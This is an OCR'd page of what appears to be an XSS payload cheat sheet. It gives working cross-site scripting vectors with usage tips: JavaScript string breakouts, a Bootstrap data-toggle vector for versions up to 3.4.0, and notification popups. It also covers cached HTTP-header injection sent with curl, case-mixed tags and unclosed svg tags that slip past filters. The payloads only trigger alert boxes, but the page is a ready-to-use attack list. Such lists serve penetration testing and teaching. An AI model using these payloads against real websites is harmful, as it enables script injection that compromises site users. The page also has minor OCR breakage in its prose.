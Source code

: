 
## JS Injection - ReferenceError Fix
Use to fix the syntax of some hanging javascript code. Check console tab in Browser 
Developer Tools (F12) for the respective ReferenceError and replace var and function 
names accordingly.
```
';alert(1);var myObj='
';alert(1);function myFunc(){}'
```


## Bootstrap Vector (up to v3.4.0)
Use when there’s a bootstrap library present on page. It also bypass Webkit Auditor, just 
click anywhere in page to trigger. Any char of href value can be HTML encoded do bypass 
filters. 
```
<html data-toggle=tab href="<img src=x onerror=alert(1)>">
```


## Browser Notification
Use as an alternative to alert, prompt and confirm popups. It requires user acceptance (1
st
payload) but once user has authorized previously for that site, the 2nd one can be used. 
```
Notification.requestPermission(x=>{new(Notification)(1)})
new(Notification)(1)
```

## XSS in HTTP Header - Cached
Use to store a XSS vector in application by using the MISS-MISS-HIT cache scheme 
(if 
there’s one in place)
. Replace `<XSS>` with your respective vector and TARGET with a dummy
string to avoid the actual cached version of the page. Fire the same request 3 times.
```
$ curl -H "Vulnerable_Header: <XSS>" TARGET/?dummy_string
```


## Use to bypass case-sensitive filters.
```
<Svg OnLoad=alert(1)>
<Script>alert(1)</Script> 
```

## Unclosed Tags
Use in HTML injections to avoid filtering based in the presence of both lower than (<) and 
greater than (>) signs. It requires a native greater than sign in source code after input 
reflection. 
```
<svg onload=alert(1)//
<svg onload="alert(1)"
```
